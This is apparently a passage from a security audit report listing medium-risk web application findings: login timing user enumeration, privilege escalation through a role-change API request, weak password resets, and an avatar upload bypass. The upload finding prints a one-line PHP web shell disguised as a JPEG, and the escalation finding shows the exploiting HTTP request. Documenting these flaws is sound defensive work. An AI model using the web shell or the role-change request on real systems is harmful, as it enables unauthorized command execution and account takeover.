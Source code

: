### 🟡 M4: Information Disclosure via Error-based Timing Attacks

**Risk**: Medium | **CVSS**: 5.7

**Vulnerability**: User enumeration through login timing differences.

**Testing Results**:
```python
# Timing analysis results
valid_emails = [
  "admin@company.com",     # 1.2s response
  "support@company.com",   # 1.1s response  
  "team@company.com"       # 1.3s response
]

invalid_emails = [
  "fake@example.com",      # 0.1s response
  "test@invalid.com",      # 0.1s response
  "random@fake.com"        # 0.1s response
]
```

### 🟡 M5: Privilege Escalation via Role Manipulation

**Risk**: Medium | **CVSS**: 5.5  
**Location**: Team membership endpoints

**Issue**: Users can elevate their team permissions through direct API calls.

**Exploitation**:
```http
PUT /api/v1/teams/123/members/456 HTTP/1.1
Content-Type: application/json

{
  "role": "owner"  // ❌ No authorization check for role changes
}
```

### 🟡 M6: Weak Password Reset Implementation

**Risk**: Medium | **CVSS**: 5.3

**Issues**:
- Reset tokens valid for 24 hours (too long)
- No rate limiting on reset requests
- Tokens not invalidated after use

### 🟡 M7: File Upload Validation Bypass

**Risk**: Medium | **CVSS**: 5.1  
**Location**: `/api/v1/upload/avatar`

**Bypass Technique**:
```bash
# PHP shell upload disguised as image
file --mime-type malicious.php.jpg
# Output: malicious.php.jpg: image/jpeg

# But file actually contains:
# <?php system($_GET['cmd']); ?>
```
